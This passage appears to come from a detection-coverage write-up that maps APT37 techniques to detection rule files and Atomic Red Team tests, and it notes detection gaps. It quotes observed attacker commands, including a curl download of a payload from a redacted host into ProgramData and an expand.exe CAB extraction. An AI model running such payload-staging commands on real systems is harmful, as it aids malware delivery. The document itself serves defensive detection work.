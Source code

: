#### 10.4 Specific File Creation Patterns
- **Executable creation in suspicious paths**
  - `windows_process_execution_from_programdata.yml`
  - `executables_or_script_creation_in_temp_path.yml`
  - `process_creating_lnk_file_in_suspicious_location.yml`

##### Atomic Red Team Tests
- T1105 Curl Download File (ProgramData/Temp) — `atomics/T1105/T1105.yaml`
- T1547.001 Startup Folder shortcut creation — `atomics/T1547.001/T1547.001.yaml`

#### 10.5 Registry Persistence Mechanisms
- **Registry Run key additions**
  - `registry_keys_used_for_persistence.yml`
  - `windows_boot_or_logon_autostart_execution_in_startup_folder.yml`

##### Atomic Red Team Tests
- T1547.001 Registry Run Keys / Startup Folder — `atomics/T1547.001/T1547.001.yaml`

#### 10.6 Scheduled Task Creation Patterns
- **Task creation with specific timing**
  - `winevent_scheduled_task_created_within_public_path.yml`
  - `windows_scheduled_task_with_suspicious_command.yml`
  - `scheduled_task_deleted_or_created_via_cmd.yml`

##### Atomic Red Team Tests
- T1053.005 Scheduled Task — `atomics/T1053.005/T1053.005.yaml`

## Specific APT37 Command Patterns & IOCs

### Command Line Behaviors Observed
1. **LNK File Size Validation**
   ```
   Scans %temp% and working directory for shortcut file with exact size (6,032,787 bytes)
   ```
   - *Detection Gap: No specific file size validation analytics found*
   - Atomic Red Team Tests:
     - T1204.002 User Execution: Malicious File (.lnk) — `atomics/T1204.002/T1204.002.yaml`
     - T1547.009 Shortcut Modification — `atomics/T1547.009/T1547.009.yaml`
     - T1547.001 Add Executable Shortcut Link to Startup — `atomics/T1547.001/T1547.001.yaml`
     - Note: No atomic for exact LNK size validation; above are closest.

2. **Curl Download to ProgramData**
   ```
   curl http://[redacted]/images/test/wonder.dat -o "c:\programdata\wonder.cab"
   ```
   - `windows_curl_download_to_suspicious_path.yml`
   - `windows_file_download_via_powershell.yml`
   - Atomic Red Team Tests:
     - T1105 Curl Download File (writes to ProgramData/Temp) — `atomics/T1105/T1105.yaml`
     - T1105 Windows - PowerShell Download — `atomics/T1105/T1105.yaml`

3. **Cabinet File Extraction**
   ```
   expand c:\programdata\wonder.cab -F:* c:\programdata
   ```
   - `windows_cab_file_on_disk.yml`
   - *Detection Gap: No specific expand.exe command analytics found*
   - Atomic Red Team Tests:
     - T1140 Expand CAB with expand.exe — `atomics/T1140/T1140.yaml`
     - T1560.001 Compress a File for Exfiltration using makecab — `atomics/T1560.001/T1560.001.yaml`
